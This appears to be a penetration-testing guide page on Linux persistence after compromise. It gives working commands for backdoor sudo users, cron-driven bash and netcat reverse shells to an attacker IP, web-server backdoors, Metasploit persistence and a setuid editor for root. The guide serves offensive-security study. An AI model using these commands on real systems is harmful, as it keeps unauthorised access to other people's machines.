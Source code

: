 # Persistence

So if you manage to compromise a system you need to make sure that you do not lose the shell. If you have used an exploit that messes with the machine the user might want to reboot, and if the user reboots you will lose your shell.

Or, maybe the way to compromise the machine is really complicated or noisy and you don't want to go through the hassle of doing it all again. So instead you just create a backdoor that you can enter fast and easy.

## Create a new user

The most obvious, but not so subtle way is to just create a new user \(if you are root, or someone with that privilege\) .

```text
adduser pelle
adduser pelle sudo
```

Now if the machine has `ssh` you will be able to ssh into the machine.

On some machines, older Linux I think, you have to do

```text
useradd pelle
passwd pelle
echo "pelle    ALL=(ALL) ALL" >> /etc/sudoers
```

## Crack the password of existing user

Get the `/etc/shadow` file and crack the passwords. This is of course only persistent until the user decides to change his/her password. So not so good.

## SSH key

Add key to existing ssh-account.

## Cronjob NC

Create cronjob that connects to your machine every 10 minutes. Here is an example using a bash-reverse-shell. You also need to set up a netcat listener.

Here is how you check if cronjob is active

```text
service crond status
pgrep cron
```

If it is not started you can start it like this

```text
service crond status
/etc/init.d/cron start
```

```text
crontab -e
*/10 * * * * 0<&196;exec 196<>/dev/tcp/192.168.1.102/5556; sh <&196 >&196 2>&196
```

```text
/10 * * * * nc -e /bin/sh 192.168.1.21 5556
```

Listener

```text
nc -lvp 5556
```

Sometimes you have to set the user

```text
crontab -e
*/10 * * * * pelle /path/to/binary
```

More here: [http://kaoticcreations.blogspot.cl/2012/07/backdooring-unix-system-via-cron.html](http://kaoticcreations.blogspot.cl/2012/07/backdooring-unix-system-via-cron.html)

## Metasploit persistence module

Create a binary with malicious content inside. Run that, get meterpreter shell, run metasploit persistence.

[https://www.offensive-security.com/metasploit-unleashed/binary-linux-trojan/](https://www.offensive-security.com/metasploit-unleashed/binary-linux-trojan/)

If you have a meterpreter shell you can easily just run `persistence`.

## Backdoor in webserver

You can put a cmd or shell-backdoor in a webserver.

Put backdoor on webserver, either in separate file or in hidden in another file

The Laudanum package in Kali has a decent selection of web backdoors available,

```text
# Found in:
/usr/share/laudanum

# if it's not there the package can be downloaded with
$ apt-get update && apt-get install laudanum
```

## Admin account to CMS

Add admin account to CMS.

## Mysql-backdoor

Mysql backdoor

## Hide backdoor in bootblock

## Nmap

If the machine has nmap installed:

[https://gist.github.com/dergachev/7916152](https://gist.github.com/dergachev/7916152)

## Setuid on text-editor

You can setuid on an editor. So if you can easily enter as a www-data, you can easily escalate to root through the editor.

With `vi` it is extremely easy. You just run `:shell`, and it gives you a shell.

```text
# Make root the owner of the file
chown root myBinary

# set the sticky bit/suid
chmod u+s myBinary
```

## References

Read this [https://gist.github.com/dergachev/7916152](https://gist.github.com/dergachev/7916152)

This is a creat introduction [http://www.dankalia.com/tutor/01005/0100501002.htm](http://www.dankalia.com/tutor/01005/0100501002.htm)

